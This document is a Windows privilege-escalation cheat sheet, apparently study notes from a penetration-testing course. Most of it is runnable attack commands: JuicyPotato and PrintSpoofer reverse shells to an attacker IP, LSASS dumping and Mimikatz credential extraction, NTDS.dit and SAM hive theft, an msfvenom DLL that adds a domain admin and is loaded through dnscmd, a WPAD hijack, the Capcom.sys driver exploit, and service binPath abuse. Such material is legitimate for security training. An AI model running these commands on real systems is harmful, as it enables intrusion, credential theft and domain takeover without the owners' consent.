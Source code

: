 # Useful Tools

| Tool                                                                                                     | Description                                                                                                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [Seatbelt](https://github.com/GhostPack/Seatbelt)                                                        | C# project for performing a wide variety of local privilege escalation checks                                                                                                                                                                                                                                             |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) | WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts. All of the checks are explained [here](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)                                                                                                          |
| [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)      | PowerShell script for finding common Windows privilege escalation vectors that rely on misconfigurations. It can also be used to exploit some of the issues found                                                                                                                                                         |
| [SharpUp](https://github.com/GhostPack/SharpUp)                                                          | C# version of PowerUp                                                                                                                                                                                                                                                                                                     |
| [JAWS](https://github.com/411Hall/JAWS)                                                                  | PowerShell script for enumerating privilege escalation vectors written in PowerShell 2.0                                                                                                                                                                                                                                  |
| [SessionGopher](https://github.com/Arvanaghi/SessionGopher)                                              | SessionGopher is a PowerShell tool that finds and decrypts saved session information for remote access tools. It extracts PuTTY, WinSCP, SuperPuTTY, FileZilla, and RDP saved session information                                                                                                                         |
| [Watson](https://github.com/rasta-mouse/Watson)                                                          | Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.                                                                                                                                                                                                    |
| [LaZagne](https://github.com/AlessandroZ/LaZagne)                                                        | Tool used for retrieving passwords stored on a local machine from web browsers, chat tools, databases, Git, email, memory dumps, PHP, sysadmin tools, wireless network configurations, internal Windows password storage mechanisms, and more                                                                             |
| [Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)                        | WES-NG is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 10, including their Windows Server counterparts, is supported                 |
| [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)         | We will use several tools from Sysinternals in our enumeration including [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk), [PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist), and [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice) |

We can also find pre-compiled binaries of `Seatbelt` and `SharpUp` [here](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries), and standalone binaries of `LaZagne` [here](https://github.com/AlessandroZ/LaZagne/releases/). It is recommended that we always compile our tools from the source if using them in a client environment.

# Privileged groups

|**Group**|**Description**|
|---|---|
|Default Administrators|Domain Admins and Enterprise Admins are "super" groups.|
|Server Operators|Members can modify services, access SMB shares, and backup files.|
|Backup Operators|Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs.|
|Print Operators|Members can log on to DCs locally and "trick" Windows into loading a malicious driver.|
|Hyper-V Administrators|If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins.|
|Account Operators|Members can modify non-protected accounts and groups in the domain.|
|Remote Desktop Users|Members are not given any useful permissions by default but are often granted additional rights such as `Allow Login Through Remote Desktop Services` and can move laterally using the RDP protocol.|
|Remote Management Users|Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs).|
|Group Policy Creator Owners|Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU.|
|Schema Admins|Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL.|
|DNS Admins|Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to [create a WPAD record](https://web.archive.org/web/20231115070425/https://cube0x0.github.io/Pocing-Beyond-DA/).|

# User rights

| Setting [Constant](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) | Setting Name                                                                                                                                                                              | Standard Assignment                                     | Description                                                                                                                                                                                                                                                                                                                                                |
| ----------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SeNetworkLogonRight                                                                             | [Access this computer from the network](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/access-this-computer-from-the-network)               | Administrators, Authenticated Users                     | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+.                                                                                                                                                                                                             |
| SeRemoteInteractiveLogonRight                                                                   | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) | Administrators, Remote Desktop Users                    | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server.                                                           |
| SeBackupPrivilege                                                                               | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories)                               | Administrators                                          | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system.                                                                                                                                                                                         |
| SeSecurityPrivilege                                                                             | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log)                         | Administrators                                          | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer.                          |
| SeTakeOwnershipPrivilege                                                                        | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects)         | Administrators                                          | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads.                                                                                                                                |
| SeDebugPrivilege                                                                                | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs)                                                             | Administrators                                          | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege                                                                          | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication)       | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.                                                                                                                                                                                                                |
| SeLoadDriverPrivilege                                                                           | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers)                             | Administrators                                          | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code.                                                                                      |
| SeRestorePrivilege                                                                              | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories)                               | Administrators                                          | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object.                                                                                       |

# SeImpersonate and SeAssignPrimaryToken

The command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. This privilege can be used to impersonate a privileged account such as `NT AUTHORITY\SYSTEM`. [JuicyPotato](https://github.com/ohpe/juicy-potato) can be used to exploit the `SeImpersonate` or `SeAssignPrimaryToken` privileges via DCOM/NTLM reflection abuse.

## JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

```shell
sudo nc -lnvp 8443
```

## PrintSpoofer and RoguePotato

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

```cmd
PrintSpoofer.exe -c "ncat.exe 10.10.14.3 8443 -e cmd"
```

```shell
nc -lnvp 8443
```

# SeDebugPrivilege

By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

> [!NOTE]
> Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

## Remote Code Execution as SYSTEM

https://github.com/decoder-it/psgetsystem
https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC

# SeTakeOwnershipPrivilege

[SeTakeOwnershipPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns [WRITE_OWNER](https://docs.microsoft.com/en-us/windows/win32/secauthz/standard-access-rights) rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as `SeBackupPrivilege`, `SeRestorePrivilege`, and `SeSecurityPrivilege` to control this account's privileges at a more granular level and not granting the account full local admin rights.

These privileges on their own could likely be used to escalate privileges. Still, there may be times when we need to take ownership of specific files because other methods are blocked, or otherwise, do not work as expected. Abusing this privilege is a bit of an edge case. Still, it is worth understanding in-depth, especially since we may also find ourselves in a scenario in an Active Directory environment where we can assign this right to a specific user that we can control and leverage it to read a sensitive file on a file share.

Suppose we encounter a user with this privilege or assign it to them through an attack such as GPO abuse using [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse). In that case, we could use this privilege to potentially take control of a shared folder or sensitive files such as a document containing passwords or an SSH key.

#### Enabling SeTakeOwnershipPrivilege

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

> [!NOTE]
> Note: Take great care when performing a potentially destructive action like changing file ownership, as it could cause an application to stop working or disrupt user(s) of the target object. Changing the ownership of an important file, such as a live web.config file, is not something we would do without consent from our client first. Furthermore, changing ownership of a file buried down several subdirectories (while changing each subdirectory permission on the way down) may be difficult to revert and should be avoided.

Let's check out our target file to gather a bit more information about it.

```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }
```

Checking File Ownership

```powershell
cmd /c dir /q 'C:\Department Shares\Private\IT'
```

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```

We may still not be able to read the file and need to modify the file ACL using `icacls` to be able to read it.

```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```

## Files of Interest

```plain
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

We may also come across `.kdbx` KeePass database files, OneNote notebooks, files such as `passwords.*`, `pass.*`, `creds.*`, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.

# Windows Built-in Groups

Backup Operators 	Event Log Readers 	DnsAdmins
Hyper-V Administrators 	Print Operators 	Server Operators

## Backup Operators

Membership of this group grants its members the `SeBackup` and `SeRestore` privileges. The [SeBackupPrivilege](https://docs.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges) allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the [FILE_FLAG_BACKUP_SEMANTICS](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) flag.

We can use this [PoC](https://github.com/giuliano108/SeBackupPrivilege) to exploit the `SeBackupPrivilege`, and copy this file. First, let's import the libraries in a PowerShell session.

```powershell
PS C:\htb> Set-SeBackupPrivilege
PS C:\htb> Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

### Attacking a Domain Controller - Copying NTDS.dit

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the `C` drive and expose it as `E` drive. The NTDS.dit in this shadow copy won't be in use by the system.

```powershell
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```cmd
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the `FILE_FLAG_BACKUP_SEMANTICS` flag is specified.

### Extracting Credentials from NTDS.dit

```powershell
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

### Extracting Hashes Using SecretsDump

We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. These can then be used for pass-the-hash to access additional resources or cracked offline using `Hashcat` to gain further access.

```shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

### Copying Files with Robocopy

The built-in utility [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) can be used to copy files in backup mode as well. Robocopy is a command-line directory replication tool. It can be used to create backup jobs and includes features such as multi-threaded copying, automatic retry, the ability to resume copying, and more.

```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

This eliminates the need for any external tools.

### NetExec module

```shell
nxc smb dc -u user -p pass -M backup_operator
```

# Event Log Readers

Administrators or members of the [Event Log Readers](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11)?redirectedfrom=MSDN#event-log-readers) group have permission to access this log. It is conceivable that system administrators might want to add power users or developers into this group to perform certain tasks without having to grant them administrative access.

We can query Windows events from the command line using the [wevtutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil) utility and the [Get-WinEvent](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.diagnostics/get-winevent?view=powershell-7.1) PowerShell cmdlet.

```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

```cmd
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

```powershell

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

The cmdlet can also be run as another user with the `-Credential` parameter.

Other logs include [PowerShell Operational](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.1) log, which may also contain sensitive information or credentials if script block or module logging is enabled. This log is accessible to unprivileged users.

# DnsAdmins

The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. As detailed in this excellent [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common)

- DNS management is performed over RPC
- [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
- When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

## ServerLevelPluginDll

Generating Malicious DLL

```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Download the file to the target

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

Loading DLL as Non-Privileged User

```cmd hl:5
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

As expected, attempting to execute this command as a normal user isn't successful. Only members of the `DnsAdmins` group are permitted to do this.

Loading DLL as Member of DnsAdmins

```cmd hl:4
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

## Using Mimilib.dll

As detailed in this [post](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html), we could also utilize [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) from the creator of the `Mimikatz` tool to gain command execution by modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute a reverse shell one-liner or another command of our choosing.

## Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to [disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps), which by default blocks this attack.

After disabling the global query block list and creating a WPAD record, every machine running WPAD with default settings will have its traffic proxied through our attack machine. We could use a tool such as [Responder](https://github.com/lgandx/Responder) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) to perform traffic spoofing, and attempt to capture password hashes and crack them offline or perform an SMBRelay attack.

Disabling the Global Query Block List

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

Adding a WPAD Record

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

# Print Operators

[Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) is another highly privileged group, which grants its members the `SeLoadDriverPrivilege`, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. If we issue the command `whoami /priv`, and don't see the `SeLoadDriverPrivilege` from an unelevated context, we will need to bypass UAC.

The [UACMe](https://github.com/hfiref0x/UACME) repo features a comprehensive list of UAC bypasses, which can be used from the command line. Alternatively, from a GUI, we can open an administrative command shell and input the credentials of the account that is a member of the Print Operators group. If we examine the privileges again, `SeLoadDriverPrivilege` is visible but disabled.

```cmd hl:9
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

t's well known that the driver `Capcom.sys` contains functionality to allow any user to execute shellcode with SYSTEM privileges. We can use our privileges to load this vulnerable driver and escalate privileges. We can use [this](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) tool to load the driver. The PoC enables the privilege as well as loads the driver for us.
## Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

This launches a shell with SYSTEM privileges.

## Alternate Exploitation - No GUI

If we do not have GUI access to the target, we will have to modify the `ExploitCapcom.cpp` code before compiling. Here we can edit line 292 and replace `"C:\\Windows\\system32\\cmd.exe"` with, say, a reverse shell binary created with `msfvenom`, for example: `c:\ProgramData\revshell.exe`.

## Automating the Steps

We can use a tool such as [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) to automate the process of enabling the privilege, creating the registry key, and executing `NTLoadDriver` to load the driver. To do this, we would run the following:

```cmd
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

We would then run `ExploitCapcom.exe` to pop a SYSTEM shell or run our custom binary.

> [!NOTE]
> Note: Since Windows 10 Version 1803, the "SeLoadDriverPrivilege" is not exploitable, as it is no longer possible to include references to registry keys under "HKEY_CURRENT_USER".

# Server Operators

The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

Querying the AppReadiness Service

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

```cmd
sc start AppReadiness
```

```cmd
net localgroup Administrators
```

# User Account Control

Confirming UAC is Enabled

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

Checking UAC Level

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

Checking Windows Version

```powershell
[environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it. 

# Weak Permissions

## Permissive File System ACLs

### Running SharpUp

We can use [SharpUp](https://github.com/GhostPack/SharpUp/) from the GhostPack suite of tools to check for service binaries suffering from weak ACLs.

```powershell
PS C:\htb> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===


=== Modifiable Service Binaries ===

  Name             : SecurityService
  DisplayName      : PC Security Management Service
  Description      : Responsible for managing PC security
  State            : Stopped
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\PCProtect\SecurityService.exe"
  
  <SNIP>
  
```

### Checking Permissions with icacls

